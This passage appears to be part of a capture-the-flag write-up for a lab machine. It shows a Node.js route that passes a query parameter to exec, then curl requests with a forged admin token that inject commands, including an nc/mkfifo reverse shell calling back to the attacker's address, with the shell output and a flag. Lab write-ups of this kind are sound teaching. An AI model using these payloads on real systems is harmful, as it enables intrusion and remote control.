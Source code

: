 --------

<br>

### Step 3
Next we need to figure out how to exploit the use of the admin token. Looking in `routes/private.js` we find something interesting. If we are user `theadmin`, requests will be executed using `exec` - meaning the app is vulnerable to command injection/execution. 

```js
$ cat routes/private.js 

[... snip ...]

router.get('/logs', verifytoken, (req, res) => {
    const file = req.query.file;
    const userinfo = { name: req.user }
    const name = userinfo.name.name;
    
    if (name == 'theadmin'){
        const getLogs = `git log --oneline ${file}`;
        exec(getLogs, (err , output) =>{
            if(err){
                res.status(500).send(err);
                return
            }
            res.json(output);
        })
    }
    else{
        res.json({
            role: {
                role: "you are normal user",
                desc: userinfo.name.name
            }
        })
    }
})
```

Code Execution:
```bash
$ curl -X GET -H "Content-Type: application/json" -H "Auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MThlNThiMWE2OTU4OTA0NTc2OThkYTEiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InBsYXllcjNAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjM2NzE4ODczfQ.mHuzptCZxArx8xTaM4Hu0ijriDdlY5BA5dPURWjA6Rk" "http://secret.htb/api/logs?file=|id"   
"uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)\n" 
```

Create a reverse shell with "**nc mkfifo**":
```bash
$ curl -X GET -H "Content-Type: application/json" -H "Auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MThlNThiMWE2OTU4OTA0NTc2OThkYTEiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InBsYXllcjNAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjM2NzE4ODczfQ.mHuzptCZxArx8xTaM4Hu0ijriDdlY5BA5dPURWjA6Rk" "http://secret.htb/api/logs?file=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.3+4488+>/tmp/f"

$ nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.120] 60328
/bin/sh: 0: can't access tty; job control turned off
$ id && hostname
uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)
secret
$ cat user.txt	
a9fd4876fae583bb8625a466208d711f
```